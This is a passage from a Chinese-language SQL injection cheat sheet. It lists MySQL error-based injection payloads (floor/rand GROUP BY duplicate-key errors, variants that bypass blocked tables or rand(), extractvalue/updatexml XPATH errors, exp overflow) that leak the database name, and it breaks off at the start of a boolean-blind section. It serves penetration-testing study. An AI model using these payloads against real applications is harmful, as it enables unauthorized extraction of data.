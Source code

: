```mysql
SELECT count(*), 
concat(database(),0x3a,floor(rand(0)*2))a 
FROM information_schema.schemata 
GROUP BY a;
```

### 2、简写

```mysql
SELECT count(*) 
FROM information_schema.schemata 
GROUP BY concat(database(),0x3a,floor(rand(0)*2));
```

### 3、关键表被禁用

```mysql
SELECT count(*) 
FROM (SELECT 1 UNION SELECT 2 UNION SELECT 3)a 
GROUP BY concat(database(),0x3a,floor(rand(0)*2));
```

### 4、rand()被禁用

```mysql
SELECT min(@a:=1) 
FROM information_schema.schemata 
GROUP BY concat(database(),0x3a,(@a:=(@a+1)%2));
```

### 5、利用XPATH语法错误

```mysql
SELECT extractvalue(1,concat(0x7e,database()));
SELECT updatexml(1,concat(0x7e,database(),0x7e),1);
```

### 6、利用溢出报错

```mysql
SELECT ～0 + !(SELECT * FROM (SELECT database())a);
SELECT exp(~(SELECT * FROM (SELECT database())a));
# 似乎在一些版本中这个漏洞被修复了
```

## 二、基于布尔的盲注

### 1、算术运算符

+、-、\*、/、%、DIV、MOD

### 2、比较运算符

